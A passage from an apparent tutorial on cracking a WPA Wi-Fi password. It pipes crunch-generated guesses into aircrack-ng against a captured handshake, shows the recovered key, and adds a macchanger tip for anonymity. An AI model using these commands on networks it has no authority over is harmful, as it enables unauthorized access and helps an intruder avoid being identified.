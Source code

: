 ```
-t @,%^
      Specifies a pattern, eg: @@god@@@@ where the only the @'s, ,'s, %'s, and ^'s will change.
      @ will insert lower case characters
      , will insert upper case characters
      % will insert numbers
      ^ will insert symbols
```

With this flag, we can modify our command as follows:

```
$ crunch 14 14 -t @@@@@@@@@@@%%%  | aircrack-ng -w - SCAN_OUTPUT.cap -e Lower\ The\ Rent
```

This will still take long, however, due to the length of the password. Let's cheat a little bit just to show the success screen. Here's the new command where we will type in the letters of the password and only try to guess the remaining digits:

```
crunch 14 14 -t pinkcoconut%%% | aircrack-ng -w - SCAN_OUTPUT.cap -e Lower\ The\ Rent
```

Success! The password has been found:

```
                              Aircrack-ng 1.5.2


                   [00:00:03] 842 keys tested (262.68 k/s)


                        KEY FOUND! [ pinkcoconut165 ]


      Master Key     : 1C 7E B9 AE 6E 96 C3 29 A1 CC 8F 70 CE 3D 41 46
                       6A 02 A6 A3 82 E8 19 D8 34 12 E2 62 A6 79 8B C7

      Transient Key  : C1 FA BC A8 1E 15 B9 3F 7C 59 AA 00 8D 6F 9A C1
                       F8 D6 F2 A1 BB 8A 0F 71 05 D1 C0 89 88 34 04 CC
                       5A 10 EF FF 77 08 13 EF CA 8B 10 53 31 5E 65 20
                       A9 A8 25 7A 37 AA A8 A4 BD 67 6F E4 F9 36 14 C4

      EAPOL HMAC     : 92 FB C9 F7 B9 1B 60 B1 82 9B 90 BA 03 EF E4 83
```

## Additional Tips

### Changing Your MAC Address

If you want to stay as anonymous as possible, you can change your MAC Address before attempting any of this. You can easily do this using a tool like `macchanger`. The following command will assign a randomized MAC address to the `wlan0` interface:

```
$ macchanger -r wlan0
```
